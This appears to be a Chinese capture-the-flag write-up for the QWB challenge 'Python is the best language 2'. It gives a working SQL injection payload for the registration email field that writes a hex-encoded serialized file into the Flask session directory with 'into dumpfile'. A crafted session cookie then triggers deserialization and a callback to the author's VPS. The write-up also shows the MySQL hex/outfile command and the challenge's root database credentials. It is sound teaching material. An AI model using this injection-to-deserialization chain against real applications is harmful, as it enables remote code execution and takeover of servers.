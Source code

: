 同时根据`config.py`:
```
SQLALCHEMY\_DATABASE\_URI = "mysql://root:password@localhost/flask?charset=utf8"
SESSION\_FILE\_DIR = "/tmp/ffff"
```
可以知道session文件的保存路径在`/tmp/ffff`，以及用户为root，因此具有文件导出的权限的可能性很大。

流程

结合`Python is the best language 1`中的sql注入漏洞，我们梳理出如下的攻击流程：

+ 1.  本地生成序列化文件，并且进行十六进制编码
+ 2.  通过sql注入漏洞outfile出session文件
+ 3.  访问index，同时带上session文件对应的session值，触发`open_session`中的`self.cache.get`，进行反序列化攻击

假设前面生成的序列化文件存在于`/tmp/ffff/chybeta`，建议使用mysql的hex转码来进行十六进制的转换:
```
mysql> select hex(load_file('/tmp/ffff/chybeta')) into outfile '/tmp/ffff/exp';
Query OK, 1 row affected (0.00 sec)
```
![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210627-54001108-302d-1.jpeg)

以使用`675b6ec7-95bd-411f-a59d-4c3dbchybeta`作为cookie为例，则其session文件存在于`/tmp/ffff/78f634977cbacf167dfd9656fe9dd5f3`

在十六进制的序列化串前面添加`0x`，构造邮箱处的注入点：
```
select id from user where email = 'test'/**/union/**/select/**/0x63636F6D6D616E64730A../**/into/**/dumpfile/**/'/tmp/ffff/78f634977cbacf167dfd9656fe9dd5f3'#@test.com'
```
也即在注册的邮箱处填入：

    test'/**/union/**/select/**/0x63636F6D6D616E64730A.../**/into/**/dumpfile/**/'/tmp/ffff/78f634977cbacf167dfd9656fe9dd5f3'#@test.com

点击submit后出现`Please use a different email address.`。

接着在burp中抓取访问index的包，并修改cookie为`675b6ec7-95bd-411f-a59d-4c3dbchybeta`，在自己的vps上监听对应的端口：

![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210556-416f6304-302d-1.jpeg)

flag：QWB{pyth0n1s1ntere3t1ng}

总结:

*   wtforms.validators的Email类验证不完善
*   flask的session处理机制
*   python沙箱逃逸
*   python反序列化漏洞
*   一点“小小”的脑洞

Refference:

*   [P师傅：Python库WTForm过滤不严导致URLXSS漏洞](http://bugs.leavesongs.com/PYTHON/Python%E5%BA%93WTForm%E8%BF%87%E6%BB%A4%E4%B8%8D%E4%B8%A5%E5%AF%BC%E8%87%B4URLXSS%E6%BC%8F%E6%B4%9E/)

# 评论区
**请文明评论，禁止广告**
<img src="https://cloud.panjunwen.com/alu/扇耳光.png" alt="扇耳光.png" class="vemoticon-img">  

---

